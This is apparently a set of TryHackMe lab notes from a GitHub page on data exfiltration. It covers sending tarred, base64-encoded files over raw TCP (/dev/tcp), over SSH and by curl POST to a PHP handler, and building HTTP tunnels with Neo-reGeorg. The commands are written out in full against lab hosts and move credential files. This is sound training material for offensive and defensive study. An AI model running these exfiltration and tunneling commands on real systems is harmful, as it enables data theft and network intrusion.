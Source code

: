 # Data Exfiltration

## How to use Data Exfiltration
#### Traditional Data Exfiltration
#### C2 Communications
#### Tunneling

## Traditional Data Exfiltration
![exfiltration](https://github.com/nkn-ctrl/TryHackMe/assets/73976100/4b08c31e-0867-49a9-913c-558386ada8a4)  

### Exfiltration using TCP socket

<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/3ef38151-35ff-4e52-9933-f1deaca27a2b" width=600>  

1. The first machine is listening over TCP on port 1337
2. The other machine connects to the port specified in step 1. For example, nc 1.2.3.4 1337
3. The first machine establishes the connection
4. Finally, the sending and receiving data starts. For example, the attacker sends commands and receives results.  

- Listening on port TCP/8080 in the JumpBox
```
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```
- Exfiltrate Data over TCP Socket from the victim machine!
```
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/[JUMP_BOX_IP]/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```  
- Restoring the tar file
```
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
260 bytes transferred in 0.000321 secs (810192 bytes/sec)
```

### Exfiltration using SSH
- Exfiltration data from the victim1 machine
```
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

## C2 Communications
![exfiltrarion2](https://github.com/nkn-ctrl/TryHackMe/assets/73976100/f32ff963-384a-4d9a-8ebb-91bf35fdc5e1)  

### Exfiltrate using HTTP(S)
#### HTTP Data Exfiltration
1. An attacker sets up a web server with a data handler. In our case, it will be `web.thm.com` and the `contact.php` page as a data handler.
2. A C2 agent or an attacker sends the data. In our case, we will send data using the `curl` command.
3. The webserver receives the data and stores it. In our case, the `contact.php` receives the POST request and stores it into `/tmp`.
4. The attacker logs into the webserver to have a copy of the received data.  

First, we prepared a webserver with a data handler for this task. The following code snapshot is of PHP code to handle POST requests via a file parameter and stores the received data in the `/tmp` directory as `http.bs64` file name.   

```
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```  

- Sending POST data via CURL
```
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```
- Checking the received data and fix it
```
thm@web:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 www-data www-data 247 Apr 12 16:03 http.bs64
thm@web:~$ cat /tmp/http.bs64
H4sIAAAAAAAAA 3ROw7CMBBFUddZhVcA/sYSHUuJSAoKMLKNYPkkgSriU1kIcU/hGcsuZvTysEtD<
WYua1Ch4P9fRss69dsZ4E6wNTiitlTdC qpTPZxz6ZKUIsVY3v379P6j8j3/8ejzqlyrrDgF3Dr3
On/XLvI3QVshVY1hlv48/64/7I bU5fzJaa 2c5XbazzbTOtvCkxpubbUwIAAAAAAAAAAAAAAAB4
5gZKZxgrACgAAA==

thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64

thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
tmp/task6/
tmp/task6/creds.txt
```


### Tunneling
![exfiltration3](https://github.com/nkn-ctrl/TryHackMe/assets/73976100/21509d65-0b22-458e-ae64-6ae96c31c3df)

#### HTTP Tunneling  

<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/2840f366-f6ee-424e-8264-8f858c64cbb3" width=600>  

For HTTP Tunneling, we will be using a [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) tool to establish a communication channel to access the internal network devices.   

- Generating encrypted Tunneling Clients with a selected password!  
```
root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py generate -k thm
~~~
~~~
    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
```  

The previous command generates encrypted Tunneling clients with `thm` key in the `neoreg_servers/` directory.  In our scenario, we will be uploading the `tunnel.php` file via the uploader machine. 

- Creating an HTTP Tunnel
```
root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py -k thm -u http://UPLOADER_IP/uploader/files/tunnel.php
```
- Access the app.thm.com machine via the HTTP Tunneling
```
root@AttackBox:~$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
Welcome to APP Server!
```  


